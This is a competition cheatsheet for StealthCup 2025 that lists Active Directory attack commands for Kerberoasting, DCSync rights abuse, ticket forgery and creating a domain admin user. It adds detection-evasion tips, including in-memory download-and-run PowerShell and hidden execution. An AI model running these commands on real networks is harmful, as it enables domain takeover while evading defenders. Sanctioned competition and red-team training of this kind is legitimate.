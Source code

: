 # StealthCup 2025: Active Directory Attack Cheatsheet

This cheatsheet provides techniques for attacking the Active Directory environment within StealthCup, focusing on achieving the **Enterprise Cup objective** (create `plumber` user with domain admin rights) while minimizing alerts.

**Prerequisite**: Some level of initial access/credentials obtained via reconnaissance or other means.

## 1. Stealthy AD Enumeration (Post-Credentials)

Once you have credentials (even low-privileged ones), enumerate AD more deeply but carefully.

- **PowerShell-Based Enumeration**: Leverage built-in AD cmdlets or tools like PowerView.
  - **Tools**: `PowerView.ps1`, Native AD cmdlets (`Get-ADUser`, `Get-ADGroup`, etc.)
  - **Example (PowerView - Find Domain Admins)**:
    ```powershell
    # Import PowerView first
    Get-NetGroupMember -GroupName "Domain Admins" -Domain <domain_name>
    ```
  - **Example (Native - Find specific user)**:
    ```powershell
    Get-ADUser -Identity <username> -Properties *
    ```
  - **Evasion Tip**: Run PowerShell commands in memory (`IEX (New-Object Net.WebClient).DownloadString(...)`). Avoid dropping scripts to disk. Use `powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden` for execution. Throttle queries to avoid generating excessive LDAP traffic. Use `-LDAPFilter` for targeted queries instead of fetching all objects.

- **LDAP Queries**: Use tools to perform raw LDAP queries.
  - **Tools**: `ldapsearch` (Linux), `AdFind.exe` (Windows), Python libraries (`ldap3`)
  - **Example (`ldapsearch` - Find Domain Controllers)**:
    ```bash
    ldapsearch -x -H ldap://<dc_ip> -D '<user_dn>' -w '<password>' -b '<base_dn>' '(userAccountControl:1.2.840.113556.1.4.803:=8192)' # Find DCs
    ```
  - **Evasion Tip**: Encrypt LDAP traffic (LDAPS/636 or StartTLS). Authenticate with valid credentials. Avoid overly broad queries.

- **BloodHound**: Excellent for visualizing attack paths but can be noisy during data collection (SharpHound).
  - **Tools**: `SharpHound.ps1` / `SharpHound.exe`, `BloodHound` GUI
  - **Example (SharpHound - Stealthy Collection)**:
    ```powershell
    # Use specific collection methods, avoid full collection initially
    Invoke-BloodHound -CollectionMethod Group,LocalAdmin,Session -Throttle 1000 -Jitter 30
    ```
  - **Evasion Tip**: Use `-Throttle` and `-Jitter` to slow down collection. Run SharpHound in memory. Consider collecting specific data types (`Group`, `Session`, `LocalAdmin`) incrementally rather than `All`. Analyze data offline.

## 2. Privilege Escalation Techniques

Focus on methods less likely to be caught by standard EDR/AV.

- **Kerberoasting**: Request service tickets (TGS) for accounts with SPNs and crack them offline.
  - **Tools**: `GetUserSPNs.py` (impacket), `Rubeus.exe`, `Invoke-Kerberoast.ps1`
  - **Example (impacket)**:
    ```bash
    GetUserSPNs.py <domain_name>/<username>:<password> -request -outputfile kerberoast_hashes.txt
    ```
  - **Evasion Tip**: Request tickets one by one or in small batches. Avoid requesting tickets for highly privileged accounts (like krbtgt) directly if possible. Use valid user credentials.

- **Abusing GPO Permissions**: Look for GPOs you can edit to push malicious settings or scripts.
  - **Tools**: PowerView (`Get-NetGPO`, `Find-GPOComputerAdmin`, `Find-GPOLocation`)
  - **Evasion Tip**: Modify existing GPOs subtly rather than creating new ones. Use fileless payloads in GPO scripts. Target specific OUs.

- **ACL/ACE Abuse**: Find objects where you have modification rights (e.g., `GenericAll`, `WriteDACL`).
  - **Tools**: PowerView (`Get-ObjectAcl`, `Add-ObjectAcl`), `BloodHound` (analyzes paths)
  - **Example (Grant DCSync rights if possible)**:
    ```powershell
    Add-DomainObjectAcl -TargetIdentity "DC=<domain>,DC=<com>" -PrincipalIdentity <your_user> -Rights DCSync
    ```
  - **Evasion Tip**: DCSync rights are heavily monitored. Other less obvious ACL paths might exist (e.g., controlling a user/group that has rights). Modify ACLs carefully and revert if necessary.

- **Unconstrained Delegation Abuse**: If you compromise a server/user with unconstrained delegation, you can capture TGTs.
  - **Tools**: `Rubeus monitor /interval:5`, `Invoke-PowerShellTcp` (to relay session)
  - **Evasion Tip**: Requires compromising a specific type of host. Monitor traffic passively if possible.

- **Password Spraying (Slowly)**: Try 1-2 common passwords against a list of users over a long period.
  - **Tools**: `Spray-Passwords.ps1`, `kerbrute passwordspray`
  - **Evasion Tip**: VERY SLOWLY. Target non-privileged accounts first. Avoid lockout policies (e.g., 1 attempt per user per hour). Use different source IPs if possible.

## 3. Achieving Domain Admin Rights & Creating 'plumber'

- **Golden Ticket (Requires krbtgt hash)**: Create forged TGTs. Highly privileged, highly detected if done improperly.
  - **Tools**: `mimikatz`, `ticketer.py` (impacket)
  - **Evasion Tip**: Obtain `krbtgt` hash via DCSync (if you have rights) or by compromising a DC. Use the ticket immediately and for specific actions. Don't use overly long ticket lifetimes.

- **Silver Ticket (Requires service NTLM hash)**: Create forged TGSs for specific services. Less powerful but potentially stealthier.
  - **Tools**: `mimikatz`, `ticketer.py` (impacket)
  - **Evasion Tip**: Target less critical services first (e.g., CIFS on a specific server).

- **DCSync (Requires specific rights)**: Dump credentials directly from a DC.
  - **Tools**: `mimikatz`, `secretsdump.py` (impacket)
  - **Evasion Tip**: Requires specific AD rights (`Replicating Directory Changes`). Heavily monitored. Perform quickly and ideally from a trusted machine/context if possible.

- **Adding User to Domain Admins**: Once you have sufficient privileges (e.g., control over a DA account, ability to edit DA group membership via ACLs).
  - **Tools**: Native AD cmdlets (`Add-ADGroupMember`), `net group` command
  - **Example (PowerShell)**:
    ```powershell
    Add-ADGroupMember -Identity "Domain Admins" -Members <your_controlled_user_or_plumber>
    ```
  - **Evasion Tip**: Perform this action quickly after gaining necessary privileges. Consider adding to an intermediate group first if DA membership is heavily audited.

- **Creating the 'plumber' User**:
  - **Tools**: Native AD cmdlets (`New-ADUser`), `net user` command
  - **Example (PowerShell)**:
    ```powershell
    # Create user
    New-ADUser -Name "plumber" -SamAccountName "plumber" -AccountPassword (ConvertTo-SecureString "<password>" -AsPlainText -Force) -Enabled $true
    # Add to Domain Admins (requires privileges)
    Add-ADGroupMember -Identity "Domain Admins" -Members "plumber"
    ```
  - **Evasion Tip**: Create the user with minimal attributes initially. Add to DA group as a separate step if needed. Use strong, non-default passwords.

## General Evasion Tips for AD Attacks

- **Least Privilege**: Use the minimum necessary privileges for each action.
- **Credentials**: Avoid plaintext passwords in scripts; use hashes or tokens where possible.
- **Fileless Execution**: Run tools in memory whenever possible.
- **Traffic**: Use encrypted channels (LDAPS, SMB signing/encryption, WinRM HTTPS).
- **Timing**: Blend in with normal business hours or perform actions slowly over time.
- **Cleanup**: Revert ACL changes, remove persistence, clear obvious logs (if absolutely necessary and allowed by rules - check rules carefully!). Rule 16 forbids deleting logs/history.

Always consult the [Alert Evasion Cheatsheet](Alert-Evasion-Cheatsheet.md) and [Scoring System Cheatsheet](Scoring-System-Cheatsheet.md).